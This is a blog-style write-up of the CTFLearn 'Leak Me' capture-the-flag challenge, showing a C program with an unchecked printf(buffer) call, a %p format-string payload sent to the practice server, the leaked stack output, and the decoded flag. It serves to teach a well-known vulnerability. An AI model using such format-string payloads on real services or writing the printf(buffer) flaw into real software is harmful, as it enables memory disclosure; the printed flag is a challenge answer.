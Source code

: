 ```yaml
---
title: "CTFLearn Leak Me"
date: 2023-08-22T16:00:42-07:00
categories: ["CTF", "blog"]
---
```


- [Problem link](https://ctflearn.com/challenge/1221)

When I access the program, it
- prompts a question
- and it takes user input
- then prints the input

```
$ nc rivit.dev 10003
What is your favorite format tag? some_text
some_text
```

The problem comes with the program source code and its binary.

```
#include <stdlib.h>
#include <stdio.h>

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char flag[64], buffer[64];

    FILE *f = fopen("./flag.txt", "rt");
    if (f == NULL) {
        puts("No flag.txt found, contact an admin");
        return 1;
    }

    fgets(flag, 64, f);
    fclose(f);

    printf("What is your favorite format tag? ");
    fgets(buffer, sizeof(buffer), stdin);
    printf(buffer);

    return 0;
}
```

Since it takes user input and print, it might be a problem for buffer overflow.
Let's examine their addresses with Cutter.

I found the flag is read and stored at `0x55f825d31480` and the variable from
user input is stored at `0x7ffe188c5990`. In addition, the input size is
regulated, I cannot use buffer overflow to print it.

Let's go back to the source code. There is something unfamiliar to me in C,
`printf(buffer);`. What we usually do is `printf("%s\n", buffer);` or something
similar. Is there any exploit?

After a research, I found [Format string
attack](https://owasp.org/www-community/attacks/Format_string_attack). Let's try
with `%p`, so hopefully we can get something useful from the stack.

```
$ nc rivit.dev 10003
What is your favorite format tag? %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x7f6f45047b23 0xfbad208b 0x7f6f44f42992 (nil) (nil) (nil) 0x55b5639842a0 0x6e7261656c465443 0x5f336b316c5f317b 0x745f74346d723066 0x7d3030745f356734 0xa 0x1 0x55b5638c3040 0x7f6f4507785c 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
```

The interesting part is `0x6e7261656c465443 0x5f336b316c5f317b
0x745f74346d723066 0x7d3030745f356734`. I obtained
`nraelFTC_3k1l_1{t_t4mr0f}00t_5g4` via converting into ASCII. It has both
brackets and anagram of CTF. Let's sort the string by block.
`}00t_5g4t_t4mr0f_3k1l_1{nraelFTC` and its reversed string
`CTFlearn{1_l1k3_f0rm4t_t4g5_t00}`.

## Takeaways

I spent 4 hours of reverse engineering to make stack overflow happen with both
disassembly and decompiler output. However, after visiting to the original C
source code, I found something wrong in a few seconds. Soon I could find the
well-known vulnerability on OWASP.

- I should be more carefully walk through the original C source code.
- When seeing a user input directly as output, check for potential format string
  attack if possible.
